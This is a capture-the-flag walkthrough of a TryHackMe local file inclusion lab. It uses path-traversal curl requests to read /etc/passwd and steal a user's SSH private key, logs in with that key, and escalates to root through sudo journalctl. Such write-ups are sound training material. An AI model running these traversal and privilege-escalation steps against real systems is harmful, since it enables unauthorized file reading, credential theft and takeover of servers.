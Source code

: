 # Room
https://tryhackme.com/room/lfi

# Task 1
LFI stands for Local File Inclusion.  It is a vulnerability usually found in web servers that allows you to exploit user input to read actual files on the server

# Task 2
LFI requires a parameter based input field that you can pass a malicious value to carry out the exploit and read a sensitive file
* Check page for possible parameters
    ```
    curl --silent http://10.10.227.13 | grep ?
                <a class="nav-link" href="/home?page=about.html">About</a>
                <a class="nav-link" href="/home?page=services.html">Services</a>
                <a class="nav-link" href="/home?page=contact.html">Contact</a>
                <a href="/home?page=about" class="btn btn-success">Leave a Review</a>
    ```
* In the output above page is the parameter and is being feed the values of about.html, services.html, contact.html, and about, now that we know what the paramter is we can check a few things
* LFI references
    * https://book.hacktricks.xyz/pentesting-web/file-inclusion
    * https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
* Try LFI for /etc/passwd
    ```
    curl --silent http://10.10.227.13/home?page=../../etc/passwd | grep -v -e "^$" | grep -v "<"
                4.0 stars
                Product Reviews
    
        root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    ```
* An interesting user is falcon, try to look at falcon's .bashrc
    ```
    curl --silent http://10.10.227.13/home?page=../../home/falcon/.bashrc | grep -v -e "^$" | grep -v "<" | tail -10
    # this, if it&#39;s already enabled in /etc/bash.bashrc and /etc/profile
    # sources /etc/bash.bashrc).
    if ! shopt -oq posix; then
    if [ -f /usr/share/bash-completion/bash_completion ]; then
        . /usr/share/bash-completion/bash_completion
    elif [ -f /etc/bash_completion ]; then
        . /etc/bash_completion
    fi
    fi
    ```
* Check to see if you can grab falcon's private key
    ```
    curl --silent http://10.10.227.13/home?page=../../home/falcon/.ssh/id_rsa | grep -v -e "^$" | grep -v "<"
                4.0 stars
                Product Reviews
    
        -----BEGIN RSA PRIVATE KEY-----
    [removed]
    -----END RSA PRIVATE KEY-----
    ```
* Login using falcon's private key and grab the user flag
    ```
    vim id_rsa                                         
    chmod 600 id_rsa                                    
    ssh -i id_rsa falcon@10.10.227.13            
    falcon@walk:~$ cat user.txt
    [removed]
    ```
# Task 3
Escalate privileges
* Check sudo -l
    ```
    falcon@walk:~$ sudo -l
    Matching Defaults entries for falcon on walk:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User falcon may run the following commands on walk:
        (root) NOPASSWD: /bin/journalctl
    ```
* Research /bin/journalctl at GTFOBins
* Exploit /bin/journalctl access and drop to a shell, grab the root flag
    ```
    falcon@walk:~$ sudo /bin/journalctl                                                                                                                                 
    -- Logs begin at Tue 2020-01-28 19:00:21 IST, end at Mon 2021-02-01 03:42:24 IST. --

    !/bin/sh
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # 
    ```